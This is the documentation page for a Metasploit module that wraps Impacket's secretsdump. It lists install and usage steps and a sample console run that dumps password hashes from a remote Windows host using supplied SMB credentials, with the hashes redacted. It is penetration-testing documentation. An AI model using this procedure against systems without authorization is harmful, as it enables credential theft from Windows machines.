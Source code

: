 ## Verification Steps

1. Install [Impacket][1] v0.9.17 from GitHub. The `impacket` package must be in
   Python's module path, so `import impacket` works from any directory.
1. Install [pycrypto][2] v2.7 (the experimental release). Impacket requires this
   specific version.
1. Start msfconsole
1. Do: `use auxiliary/scanner/smb/impacket/secretsdump`
1. Set: `RHOSTS`, `SMBUser`, `SMBPass`
1. Do: `run`, see hashes from the remote machine

## Scenarios

```
metasploit-framework (S:0 J:1) auxiliary(scanner/smb/impacket/secretsdump) > show options 

Module options (auxiliary/scanner/smb/impacket/secretsdump):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ExecMethod  smbexec          yes       The method to use for execution (Accepted: smbexec, wmiexec, mmcexec)
   OutputFile                   no        Write the results to a file
   RHOSTS      192.168.90.11    yes       The target address range or CIDR identifier
   SMBDomain   .                no        The Windows domain to use for authentication
   SMBPass     wakawaka         yes       The password for the specified username
   SMBUser     spencer          yes       The username to authenticate as
   THREADS     1                yes       The number of concurrent threads

metasploit-framework (S:0 J:1) auxiliary(scanner/smb/impacket/secretsdump) > run

[*] [2018.04.04-17:15:45] Running for 192.168.90.11...
[*] [2018.04.04-17:15:45] 192.168.90.11 - Service RemoteRegistry is in stopped state
[*] [2018.04.04-17:15:45] 192.168.90.11 - Service RemoteRegistry is disabled, enabling it
[*] [2018.04.04-17:15:45] 192.168.90.11 - Starting service RemoteRegistry
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for JD
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for Skew1
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for GBG
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for Data
[REDACTED]
[*] [2018.04.04-17:15:48] 192.168.90.11 - Cleaning up... 
[*] [2018.04.04-17:15:48] 192.168.90.11 - Stopping service RemoteRegistry
[*] [2018.04.04-17:15:48] 192.168.90.11 - Restoring the disabled state for service RemoteRegistry
[*] [2018.04.04-17:15:48] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

[1]: https://github.com/CoreSecurity/impacket
[2]: https://www.dlitz.net/software/pycrypto/
